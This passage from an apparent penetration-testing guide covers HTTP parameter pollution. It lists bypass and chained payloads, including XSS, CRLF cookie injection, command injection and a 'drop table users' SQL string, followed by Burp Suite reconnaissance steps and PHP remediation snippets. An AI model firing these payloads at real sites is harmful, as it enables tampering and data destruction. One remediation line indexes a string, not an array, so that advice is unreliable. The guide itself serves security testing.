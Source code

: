 - **Filter Bypass Payloads**:
  - `?param=safe%26param=malicious` (Encoded separator)
  - `?param=benign;param=malicious` (Semicolon separator)
  - `?param=safe%00param=malicious` (Null byte injection)
  - `?param=safe%20param=malicious` (Space-separated)

- **Logic Bypass Payloads**:
  - `?action=delete&action=view` (Action override)
  - `?access=public&access=private` (Access control bypass)
  - `?price=10&price=0` (Price tampering)
  - `?vote=1&vote=2` (Vote manipulation)

- **Chained Attack Payloads**:
  - `?param=<script>alert(1)</script>&param=benign&redir=/home` (HPP + XSS)
  - `?param=admin&param=user%0d%0aSet-Cookie:session=malicious` (HPP + Splitting)
  - `?param=safe&param=malicious;cmd=whoami` (HPP + Command Injection)
  - `?param=benign&param=malicious%26sql=1%3Bdrop%20table%20users` (HPP + SQL Injection)

**Note**: Payloads depend on the application’s parameter parsing (e.g., PHP, ASP.NET) and server (e.g., Apache, Nginx). Test payloads in query strings, POST bodies, headers, or JSON payloads where parameters are processed.

### 1. Identify Parameter-Handling Endpoints

**Objective**: Locate inputs or endpoints that process HTTP parameters.

**Steps**:
1. Browse the website:
   - Visit the target (e.g., `http://example.com`).
   - Identify forms, URLs, or APIs that accept parameters (e.g., search, login, payment).
2. Capture requests with Burp Suite:
   - Enable Intercept (Proxy > Intercept > On).
   - Submit forms or click links to capture requests in HTTP History.
   - Note parameters (e.g., `user=admin`, `amount=100`).
3. Inspect responses:
   - Check for parameter reflection or logic changes.
   - Use Developer Tools (`Ctrl+Shift+I`) to analyze parameter handling.
4. List endpoints:
   - Document query strings, form fields, headers, and JSON payloads.

**Example Endpoints**:
- URL: `http://example.com/search?query=test`
- Form: `<input name="user">`
- API: `POST /api/action` with `{"param": "value"}`

**Remediation**:
- Validate parameters:
  ```php
  if (!preg_match('/^[a-zA-Z0-9]+$/', $_GET['user'])) die("Invalid input");
  ```
- Use single parameter values:
  ```php
  $user = $_GET['user'][0]; // First value only
  ```
